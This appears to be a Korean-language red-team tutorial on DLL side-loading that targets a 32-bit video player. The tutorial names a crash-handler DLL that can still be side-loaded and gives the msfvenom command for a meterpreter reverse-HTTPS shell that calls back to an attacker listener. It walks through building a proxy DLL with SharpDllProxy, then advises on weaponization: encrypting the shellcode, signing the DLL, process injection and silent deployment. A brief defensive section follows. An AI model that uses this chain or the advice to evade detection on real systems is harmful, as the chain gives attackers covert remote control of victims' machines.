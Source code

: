 # DLL 사이드로딩 (DLL Side-Loading)

DLL 사이드로딩 (DLL Side-Loading)은 기본적으로 DLL 하이재킹 (DLL Search Order Hijacking) 과 비슷하지만, 조금 다른 기법이다. 윈도우에서 특정 프로그램들은 실행될 때 런타임 중 DLL을 불러와 필요한 코드를 실행한다. 이 때 이름은 같지만 공격자가 생성한 DLL을 프로그램 실행파일 (`.exe` ) 과 같은 디렉토리에 놔둬 공격자의 DLL이 로드되어 코드를 실행하도록 하는 공격이다.&#x20;

DLL 사이드로딩은 DLL 프록시로딩 (DLL Proxy Loading)이라고도 불리는데, 이는 로딩된 공격자의 DLL 맨 처음 Attach 될 때 실행하는 악성코드를 제외하고 프로그램이 요청하는 모든 DLL 함수들을 실제 DLL에게 모두 프록시 해 실행하기 때문이다. 때문에 프로그램의 입장에서는 비록 공격자의 DLL이 불려와졌다곤 해도, 필요한 DLL 함수들은 실제 DLL에서 제대로 다 불러와 쓰기 때문에 프로그램이 크래시 되지 않는다.&#x20;

&#x20;

![출처: https://www.flangvik.com/2019/07/24/Bypassing-AV-DLL-Side-Loading.html 를 기반으로 수정한 다이어그램](../.gitbook/assets/dllsideloading.drawio.png)

### 실습&#x20;

실습은 K사의 32비트 기반 동영상 플레이어 프로그램을 기반으로 진행한다. 이와 관련된 연구는 이미 [2019년도에 공개](https://github.com/mandiant/DueDLLigence)되었으며, DLL 사이드로딩은 제로데이가 아닌 윈도우의 기능을 이용하는 방법일 뿐임을 알린다. **심지어 마이크로소프트사에서는 이를 취약점으로 인정하지 않기 때문에 패치도 없다!** 연구자들이 발표한 특정 DLL의 사이드로딩은 패치가 되어 막혔지만, 다른 라이브러리를 사이드로딩해 이를 우회할 수 있다.&#x20;

#### DLL 사이드로딩 정보 수집&#x20;

먼저 ConsciousHacker의 [WFH툴](https://github.com/ConsciousHacker/WFH)을 이용해 PE바이너리가 어떤 라이브러리들을 로딩하는지, 그 라이브러리들 중 어떤 라이브러리가 사이드로딩이 가능한지 확인한다.&#x20;

```
PS C:\opt\WFH> python .\wfh.py -t "C:\Program Files (x86)\DAUM\PotPlayer\PotPlayerMini.exe" -m dll
==================================================
Running Frida against C:\Program Files (x86)\DAUM\PotPlayer\PotPlayerMini.exe
--------------------------------------------------
        [+] Potential DllMain Sideloading: LoadLibraryW,LPCWSTR: C:\Program Files (x86)\DAUM\PotPlayer\PotPlayer.dll
        [-] Potential DllExport Sideloading: GetProcAddress,hModule : C:\Program Files (x86)\DAUM\PotPlayer\PotPlayer.dll, LPCSTR: PreprocessCmdLineExW
        < ... >
        [+] Potential DllMain Sideloading: LoadLibraryW,LPCWSTR: C:\Program Files (x86)\DAUM\PotPlayer\DaumCrashHandler.dll
        [-] Potential DllExport Sideloading: GetProcAddress,hModule : C:\Program Files (x86)\DAUM\PotPlayer\DaumCrashHandler.dll, LPCSTR: SetCrashHandler
        [-] Potential DllExport Sideloading: GetProcAddress,hModule : C:\Program Files (x86)\DAUM\PotPlayer\DaumCrashHandler.dll, LPCSTR: GetCrashHandler
        < ... >
```

이외에도 `DllMain` 과 `DllExport` 가 모두 사용 가능한 라이브러리들이 많이 나오지만, 일단 `PotPlayer.dll` 과 `DaumCrashHandler.dll` 에 주목한다. `PotPlayer.dll` 은 공개된 연구 이후 패치를 더해 사이드로딩이 막혔지만, `DaumCrashHandler.dll` 은 사이드로딩이 가능하다. 사이드로딩이 가능하다는 정보를 수집했으니 쉘코드와 프록시 DLL 생성 단계로 넘어간다.&#x20;

#### 프록시 DLL 생성&#x20;

DLL 생성 전, 공격에 사용될 쉘코드를 만든다. .NET 어셈블리를 donut 형태로 만들수도 있지만, 간단한 PoC를 위해 msfvenom을 이용해 meterpreter 쉘코드를 작성한다. 32비트 기반 프로그램과 DLL이기 때문에 쉘코드도 x86로 만든다.&#x20;

```
msfvenom -p windows/meterpreter/reverse_https -f raw lhost=192.168.40.182 lport=443 -o meter-x86.bin
```

이후 DLL과 쉘코드를 한 디렉토리에 옮긴 뒤, FlangVik의 [SharpDLLProxy툴](https://github.com/Flangvik/SharpDllProxy)을 이용해 프로그램에 로드가될 공격자의 프록시 DLL을 생성한다.&#x20;

```
# .\SharpDllProxy.exe --dll .\DaumCrashHandler.dll --payload .\meter-x86.bin

< ... > 

# ls


    Directory:
    C:\opt\SharpDllProxy\SharpDllProxy\bin\Debug\netcoreapp3.1\output_DaumCrashHandler


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          7/1/2022   6:35 PM           2444 DaumCrashHandler_pragma.c
-a----          7/1/2022   6:35 PM         131232 tmp4405.dll
```

그러면 DLL 1개와 `.c` 소스코드 1개가 생긴다. 이 `tmp4405.dll` 이라는 파일은 이름이 바뀐 원래 `DaumCrashHandler.dll` 파일이다. 프록시 DLL이 될 파일은 `DaumCrashHandler_pragma.c` 이며, VS나 MVSC, CMake 등을 이용해 컴파일 해서 DLL로 만들면 된다.&#x20;

이제 준비된 파일들은 다음과 같다:&#x20;

* PotPlayerMini.exe - 실제로 실행될 PE 바이너리&#x20;
* tmp4405.dll - 원래 `DaumCrashHandler.dll` 파일. 이름만 바뀐 형태다.&#x20;
* DaumCrashHandler.dll - 공격자가 생성해낸, attach 시 쉘코드를 실행하는 프록시 DLL
* meter.bin - raw 형태의 쉘코드 파일. DaumCrashHandler.dll 가 attach이 이 쉘코드가 실행된다.&#x20;
* PotPlayer.dll - PotPlayerMini.exe가 실행할 때 꼭 필요한 라이브러리&#x20;

이제 이를 실행시키면 다음과 같은 형태로 코드 실행이 일어난다.&#x20;

1. PotPlayerMini.exe 파일이 실행되며 LoadLibrary를 이용해 DaumCrashHandler.dll 을 로드
2. DaumCrashHandler.dll 은 attach 되는 즉시 같은 디렉토리내의 meter.bin을 읽어와 실행&#x20;
3. PotPlayerMini.exe가 DaumCrashHandler.dll에서 사용하고 싶은 함수들은 모두 실제 DLL인 tmp4405.dll 에게 프록시되어 실행



암호화되지 않은, 기본적인 meterpreter 쉘코드와 인터넷에 공개되어 있는 PoC를 기반으로 실행한 DLL 사이드로딩의 결과는 다음과 같다.&#x20;

![](../.gitbook/assets/dll-sideloading.gif)

### 작전보안과 무기화&#x20;

위는 PoC 형태기 때문에 실제 작전에서 쓰이기에는 부족하다. 작전보안이나 무기화를 위해서는 다음과 같은 것들을 준비해야한다:&#x20;

1. meter.bin을 파일시스템에 드랍하는 것이 아닌, 쉘코드 형태로 DaumCrashHandler.dll 안에 넣어서 실행&#x20;
2. meter.bin 쉘코드를 암호화 한 뒤, 런타임 중 복호화해 실행&#x20;
3. 프록시 dll인 DaumCrashHandler.dll 파일에 [LimeLighter](https://github.com/Tylous/Limelighter)등의 툴을 이용해 디지털 서명 부과&#x20;
4. 메인 프로세스에 쉘코드를 로드하는 방식이 아닌 프로세스 인젝션을 통해 다른 프로세스에 인젝션&#x20;
5. PotPlayerMini.exe, tmp4405.dll, DaumCrashHandler.dll, PotPlayer.dll을 타겟 호스트에 같이 드랍하기 편하도록 압축 + 암호화 진행. 이후, 초기 침투 페이로드에서 코드 실행을 이용해 압축을 풀고 복호화를 진행한 후, PotPlayerMini.exe의 창이 보이지 않도록 silent 하게 실행&#x20;

### 대응 방안&#x20;

DLL 사이드로딩의 경우 블루팀이 이를 막는 방법도 있지만, 근본적으로는 소프트웨어 개발자 분들이 이를 원천봉쇄해야한다. DLL manifest 파일을 생성해 정해진 이름과 해시값의 DLL만 프로그램에 로드될 수 있도록 하는 것이 좋다.&#x20;

엔드 유저의 입장에서는, 어쨌든 공격자는 초기 침투 이후에 DLL 사이드로딩 기법을 사용하기 때문에 공격자에게 초기 침투 기회 자체를 제공하지 않는 것이 좋다.&#x20;

더 자세한 대응 방안을 위해서는 아래 Fireeye사의 레퍼런스의 페이지 10\~11을 참고한다.&#x20;

### 레퍼런스&#x20;

{% embed url="https://redteaming.co.uk/2020/07/12/dll-proxy-loading-your-favorite-c-implant/" %}

{% embed url="https://github.com/ConsciousHacker/WFH" %}

{% embed url="https://github.com/Flangvik/SharpDllProxy" %}

{% embed url="https://hijacklibs.net/" %}

{% embed url="https://www.wietzebeukema.nl/blog/hijacking-dlls-in-windows" %}

{% embed url="https://www.mandiant.com/sites/default/files/2021-09/rpt-dll-sideloading.pdf" %}
